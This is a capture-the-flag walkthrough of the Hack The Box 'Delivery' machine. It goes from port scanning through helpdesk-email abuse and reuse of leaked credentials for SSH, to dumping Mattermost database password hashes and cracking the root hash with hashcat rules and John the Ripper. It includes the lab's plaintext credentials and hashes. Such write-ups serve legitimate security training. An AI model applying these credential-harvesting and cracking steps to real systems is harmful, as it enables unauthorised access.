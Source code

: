 # CTF - [Delivery](https://app.hackthebox.eu/machines/Delivery)

```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey: 
|   2048 9c:40:fa:85:9b:01:ac:ac:0e:bc:0c:19:51:8a:ee:27 (RSA)
|   256 5a:0c:c0:3b:9b:76:55:2e:6e:c4:f4:b9:5d:76:17:09 (ECDSA)
|_  256 b7:9d:f7:48:9d:a2:f2:76:30:fd:42:d3:35:3a:80:8c (ED25519)
80/tcp open  http    nginx 1.14.2
| http-methods: 80
|_  Supported Methods: GET HEAD
|_http-server-header: nginx/1.14.2
|_http-title: Welcome
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```
Checked out the site on port 80, there's a portal for admins in `delivery.htb:8065`, we can create an account through `helpdesk.delivery.htb`. 
<br/><br/>
![Screenshot_2021-10-19_22_23_53](https://user-images.githubusercontent.com/59718043/138017634-5b0583c4-b126-4bb6-997c-9b0e601a9dfa.png)
<br/><br/>
Edited `/etc/hosts` and included delivery.htb and helpdesk.delivery.htb.
<br/><br/>
![Screenshot_2021-10-19_22_26_18](https://user-images.githubusercontent.com/59718043/138018087-0432a42a-fae6-41c6-a1ff-b8882a260eb7.png)
<br/><br/>
Opened a ticket through this portal, used the `Check Ticket Status` functionality to login to view ticket status.
<br/><br/>
Then I went to delivery.htb:8065 to create a new account, checked back on the ticket status page and saw a verification link. This link took me to a login page.
Used the credentials to log in, this brought me to the MatterMost server.
<br/><br/>
![Screenshot_2021-10-19_23_27_16](https://user-images.githubusercontent.com/59718043/138023512-752dcf27-0df6-4f76-a1f0-29c70fb62b6a.png)
<br/><br/>
The Internal public channel contains some credentials: 
<br/><br/>
![here](https://user-images.githubusercontent.com/59718043/138201913-a1306ab6-aade-40ef-ae35-8c17040d6dde.png)
```
maildeliverer:Youve_G0t_Mail!
```
Ran a gobuster scan on the ticketing system page to find the server-side portal:
<br/><br/>
![Screenshot_2021-10-21_00-24-21](https://user-images.githubusercontent.com/59718043/138211383-2828e6a1-1475-47ac-9fca-72417dd9bd01.png)
<br/><br/>
Found the ticketing system server-side portal on `http://helpdesk.delivery.htb/scp/login.php`. Used `maildeliverer:Youve_G0t_Mail!` to log in.
<br/><br/>
![Screenshot_2021-10-21_00_30_23](https://user-images.githubusercontent.com/59718043/138211896-120c7a88-2a3c-4ff1-95ca-191579ccf69e.png)
<br/><br/>
Also found out that the same credentials can be used to SSH into the server.
```
Linux Delivery 4.19.0-13-amd64 #1 SMP Debian 4.19.160-2 (2020-11-28) x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Tue Jan  5 06:09:50 2021 from 10.10.14.5
maildeliverer@Delivery:~$ ls
user.txt
```
Mattermost stores its configuration files in `/opt/mattermost/config/config.json`. This file contains SQL database credentials.
```
    "SqlSettings": {
        "DriverName": "mysql",
        "DataSource": "mmuser:Crack_The_MM_Admin_PW@tcp(127.0.0.1:3306)/mattermost?charset=utf8mb4,utf8\u0026readT$
        "DataSourceReplicas": [],
        "DataSourceSearchReplicas": [],
        "MaxIdleConns": 20,
        "ConnMaxLifetimeMilliseconds": 3600000,
        "MaxOpenConns": 300,
        "Trace": false,
        "AtRestEncryptKey": "n5uax3d4f919obtsp1pw1k5xetq1enez",
        "QueryTimeout": 30,
        "DisableDatabaseSearch": false
    }
```
`mmuser:Crack_The_MM_Admin_PW` --- used these credentials to log in to mysql.
```
mysql -u mmuser -p
Enter password: 
Welcome to the MariaDB monitor.  Commands end with ; or \g.
Your MariaDB connection id is 38
Server version: 10.3.27-MariaDB-0+deb10u1 Debian 10

Copyright (c) 2000, 2018, Oracle, MariaDB Corporation Ab and others.

Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.

MariaDB [(none)]> 
```
Found the mattermost database; found the root credentials under the Users table.
```
MariaDB [mattermost]> select id, Username, Password from Users;
+----------------------------+----------------------------------+--------------------------------------------------------------+
| id                         | Username                         | Password                                                     |
+----------------------------+----------------------------------+--------------------------------------------------------------+
| 64nq8nue7pyhpgwm99a949mwya | surveybot                        |                                                              |
| 6akd5cxuhfgrbny81nj55au4za | c3ecacacc7b94f909d04dbfd308a9b93 | $2a$10$u5815SIBe2Fq1FZlv9S8I.VjU3zeSPBrIEg9wvpiLaS7ImuiItEiK |
| 6wkx1ggn63r7f8q1hpzp7t4iiy | 5b785171bfb34762a933e127630c4860 | $2a$10$3m0quqyvCE8Z/R1gFcCOWO6tEj6FtqtBn8fRAXQXmaKmg.HDGpS/G |
| dijg7mcf4tf3xrgxi5ntqdefma | root                             | $2a$10$VM6EeymRxJ29r8Wjkr8Dtev0O.1STWb4.4ScG.anuu7v0EFJwgjjO |
| hatotzdacb8mbe95hm4ei8i7ny | ff0a21fc6fc2488195e16ea854c963ee | $2a$10$RnJsISTLc9W3iUcUggl1KOG9vqADED24CQcQ8zvUm1Ir9pxS.Pduq |
| jing8rk6mjdbudcidw6wz94rdy | channelexport                    |                                                              |
| n9magehhzincig4mm97xyft9sc | 9ecfb4be145d47fda0724f697f35ffaf | $2a$10$s.cLPSjAVgawGOJwB7vrqenPg2lrDtOECRtjwWahOzHfq1CoFyFqm |
+----------------------------+----------------------------------+--------------------------------------------------------------+
```
```
dijg7mcf4tf3xrgxi5ntqdefma | root                             | $2a$10$VM6EeymRxJ29r8Wjkr8Dtev0O.1STWb4.4ScG.anuu7v0EFJwgjjO
```
<br/><br/>
Stored the hash in a file called `hash.txt`.
<br/><br/>
Looking back at our internal public channel on the website, someone in the chat mentioned that the password should be a variant of `PleaseSubscribe!`, they also mentioned that attackers could use hashcat rules to crack it.
<br/><br/>
Used hashcat to create variants of `PleaseSubscribe!`:
```
hashcat -r /usr/share/hashcat/rules/best64.rule --stdout file.txt > dict.txt
```
Used johntheripper to crack the password:
```
└─$ john --wordlist=dict.txt hash.txt 
Created directory: /home/ghost/.john
Using default input encoding: UTF-8
Loaded 1 password hash (bcrypt [Blowfish 32/64 X3])
Cost 1 (iteration count) is 1024 for all loaded hashes
Will run 8 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
PleaseSubscribe!21 (?)     
1g 0:00:00:00 DONE (2021-11-18 22:35) 1.219g/s 87.80p/s 87.80c/s 87.80C/s PleaseSubscribe!..PlesPles
Use the "--show" option to display all of the cracked passwords reliably
Session completed. 
```
Root:PleaseSubscribe!21
```
maildeliverer@Delivery:~$ su root
Password: 
root@Delivery:/home/maildeliverer# 
```
